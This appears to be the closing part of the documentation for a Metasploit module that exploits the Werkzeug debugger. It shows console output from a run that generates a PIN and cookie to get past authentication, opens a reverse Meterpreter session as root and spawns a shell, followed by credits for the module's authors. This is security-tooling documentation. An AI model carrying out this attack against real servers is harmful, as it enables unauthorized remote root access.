     [*] Started reverse TCP handler on 192.168.23.117:4444
    [*] Running automatic check ("set AutoCheck false" to disable)
    [*] Debugger allows code execution
    [!] The service is running, but could not be validated. Debugger requires authentication
    [*] Generated authentication PIN: 105-774-671
    [*] Generated authentication cookie: __wzdb0f3242143622dccd6f0=9999999999|3037ec0e9248
    [*] Sending stage (24772 bytes) to 192.168.23.5
    [*] Meterpreter session 1 opened (192.168.23.117:4444 -> 192.168.23.5:62474) at 2024-10-06 19:34:20 +0100

    meterpreter > getpid
    Current pid: 38
    meterpreter > getuid
    Server username: root
    meterpreter > sysinfo
    Computer        : 3eb759665d5f
    OS              : Linux 6.6.51-0-virt #1-Alpine SMP PREEMPT_DYNAMIC 2024-09-12 12:56:22
    Architecture    : aarch64
    System Language : C
    Meterpreter     : python/linux
    meterpreter > shell
    Process 41 created.
    Channel 1 created.

    ls
    app.py
    bin
    boot
    dev
    etc
    home
    lib
    media
    mnt
    opt
    proc
    report.txt
    root
    run
    sbin
    srv
    sys
    tmp
    usr
    var
    exit

## Credits
    
- 2015 - h00die (mike[at]shorebreaksecurity.com)
  - Initial module targetting versions 0.10 and older of Werkzeug that do not require authentication.
- 2024 - Graeme Robinson (metasploit[at]grobinson.me/@GraSec)
  - Support up to and including version 3.0.3 of Werkzeug via 3 different authentication mechanisms:
  - Generated Cookie (bypasses PIN-lock)
  - Known-Cookie (bypasses PIN-lock)
  - Known-PIN

